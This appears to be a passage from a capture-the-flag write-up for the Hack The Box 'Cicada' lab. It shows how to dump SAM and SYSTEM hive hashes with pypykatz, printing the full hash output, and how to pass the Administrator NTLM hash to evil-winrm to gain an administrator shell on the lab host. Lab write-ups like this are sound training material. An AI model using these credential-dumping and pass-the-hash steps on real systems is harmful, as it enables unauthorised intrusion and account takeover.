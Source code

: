 Exfiltrate the Files to Your Own Machine

After successfully backing up the files to the temporary directory, you can use various methods to transfer these files to your local machine. Common methods include using Evil-WinRM with download commands or using SMB shares.

### Privilege Escalation Using Pass-the-Hash

 Extract Hashes with pypykatz
 Use pypykatz to parse the SAM and SYSTEM registry hives to extract stored credentials.
 ```
┌──(mofe㉿mofe)-[~/files/htb/cicada]
└─$ pypykatz registry --sam sam system
WARNING:pypykatz:SECURITY hive path not supplied! Parsing SECURITY will not work
WARNING:pypykatz:SOFTWARE hive path not supplied! Parsing SOFTWARE will not work
============== SYSTEM hive secrets ==============
CurrentControlSet: ControlSet001
Boot Key: 3c2b033757a49110a9ee680b46e8d620
============== SAM hive secrets ==============
HBoot Key: a1c299e572ff8c643a857d3fdb3e5c7c10101010101010101010101010101010
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

Identify the Administrator Hash

The hash for the Administrator account is 2b87e7c93a3e8a0ea4a581937016f341. You will use this hash to authenticate as the Administrator without needing the plaintext password.

```powershell
┌──(mofe㉿mofe)-[~/files/htb/cicada]
└─$ evil-winrm -i 10.10.11.35 -u Administrator -H "2b87e7c93a3e8a0ea4a581937016f341"
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
cicada\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> 

```
And now we have Administrator priviledges








